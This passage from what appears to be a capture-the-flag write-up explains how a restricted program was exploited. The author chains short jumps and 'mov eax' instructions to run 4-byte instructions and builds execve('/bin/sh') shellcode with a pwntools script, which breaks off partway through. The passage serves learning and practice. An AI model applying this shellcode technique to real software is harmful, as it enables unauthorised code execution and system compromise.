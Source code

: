 By chaining these together, we can execute a maximum of one 4 byte instruction per 12 bytes, more than enough to give myself a shell! For a challenge, it's also possible to solve this by chaining together 2 byte instructions (before the short jump) every 5 bytes for slightly better efficiency, but getting a shell with only 2 byte instructions requires considerably more instructions (although it is definitely possible, as I have done it for a previous challenge - lots of implicit `imul`s!). All that's left for us to do now is to write a 64 bit assembly stub to give us a shell (being careful to use no more than 4 bytes per instruction) and transform it into a chain of `jmp`s and `moveax`s for the program.

My code to do this is below - I didn't have to manually push the string `/bin/sh` onto the stack because my last input is already stored on the stack - since the program stops receiving input and runs my code upon receiving EOF or an invalid instruction, I can send my payload, followed by `/bin/sh\x00`, to store that string on the stack ready for me to use it in my `execve` call.

```python
#coding: utf-8

from pwn import *

def swap_bytes(val):
    upper = (val & 0xff00)>>8
    lower = val & 0xff
    print(hex(upper),hex(lower))
    return (lower << 8) + upper

def construct(instruction):
    return (swap_bytes(jmp1)<<16) + swap_bytes(instruction)

context.bits = 64
context.arch = "amd64"

#since last input is on the stack,
#so I don't have to manually add /bin/sh - 
#I can just send it as the last line and then move rsp to point to it

totalpayload = """
xor eax, eax;

add rsp, 0x56;

mov rdi, rsp;

xor esi, esi;

xor edx, edx;

xor eax, eax;

inc eax;
inc eax;

inc esi;
inc esi;

imul esi;

imul esi;

imul esi;

imul esi;

imul esi;

dec eax;
```